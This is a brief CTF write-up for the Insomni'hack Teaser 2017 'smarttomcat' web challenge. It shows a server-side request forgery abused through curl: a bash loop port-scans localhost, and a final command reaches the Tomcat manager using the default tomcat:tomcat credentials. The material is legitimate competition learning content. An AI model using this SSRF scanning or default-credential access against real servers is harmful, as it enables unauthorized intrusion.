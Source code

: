 ```yaml
---
layout: post
title: "CTF: Solving smarttomcat challenge from Insomnihack Teaser 2017"
author: capitol
category: ctf
---
```

![channel](/images/SleepyTomcat.jpg)

##### category:
web
##### points:
50

#### Writeup
The Insomni'hack teaser 2017 was a fun CTF with a good spread between easy and hard challenges.

The smarttomcat challenge was an easy web challenge that was about attacking a badly secured tomcat server, as a user you where presented with a webpage that had an backend written in php, that backend called a tomcat server on localhost.

When looking at the form post data from the browser it became apparant that the url that the backend called was submitted by the form.

This enabled us to write a port scan as a simple bash loop:

```bash
for x in $(seq 1 65535); do echo $x >> /tmp/log && curl 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data "u=http%3A%2F%2Flocalhost%3A$x%2F" >> /tmp/log;done
```

This didn't really help us. And we realized that we could access the tomcat management url on the same port as the rest of the application. A simple google gave us the default username and password.

#### Solution
```bash
curl 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data 'u=http://tomcat:tomcat@127.0.0.1:8080/manager/html'
```
